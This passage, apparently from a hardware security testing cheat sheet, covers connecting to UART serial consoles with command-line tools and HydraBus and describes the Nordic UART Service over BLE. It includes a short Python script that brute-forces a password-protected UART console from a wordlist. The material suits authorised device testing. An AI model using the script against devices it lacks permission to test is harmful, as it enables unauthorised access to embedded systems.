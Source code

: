 ### Interact with UART

* Command line tools to interact with UART:

    ```powershell
    cu -l /dev/ttyUSB0 -s 115200
    microcom -d -s 115200 -p /dev/ttyUSB0
    minicom -b 115200 -o -D /dev/ttyUSB0 # To exit GNU screen, type Control-A k
    screen /dev/ttyUSB0 115200
    ```

* Brute force a password protected UART:

    ```python
    import serial, time
    port = "/dev/ttyUSB0"
    baud = 115200
    s = serial.Serial(port)
    s.baudrate = baud

    with open('/home/audit/Documents/IOT/passwords.lst', 'r') as f:
        lines = f.readlines()

        for pwd in lines:
            a = s.write(pwd.strip())
            print("Pwd: {}".format(pwd.strip()))
            print("Sent {} bytes".format(a))
            print("Result: {}".format(s.readline()))
            time.sleep(10)
    ```

* Interact with HydraBus

    ```ps1
    uart1> scan
    uart1> show
    uart1> speed 38400
    uart1> bridge
    ```


## UART over BLE

It’s an emulation of serial port over BLE. The UUID of the Nordic UART Service is `6E400001-B5A3-F393-E0A9-E50E24DCCA9E`. This service exposes two characteristics: one for transmitting and one for receiving.

* **RX Characteristic (UUID: 6E400002-B5A3-F393-E0A9-E50E24DCCA9E)** :
	* The peer can send data to the device by writing to the RX Characteristic of the service. ATT Write Request or ATT Write Command can be used. The received data is sent on the UART interface.
* **TX Characteristic (UUID: 6E400003-B5A3-F393-E0A9-E50E24DCCA9E)** :
	* If the peer has enabled notifications for the TX Characteristic, the application can send data to the peer as notifications. The application will transmit all data received over UART as notifications.
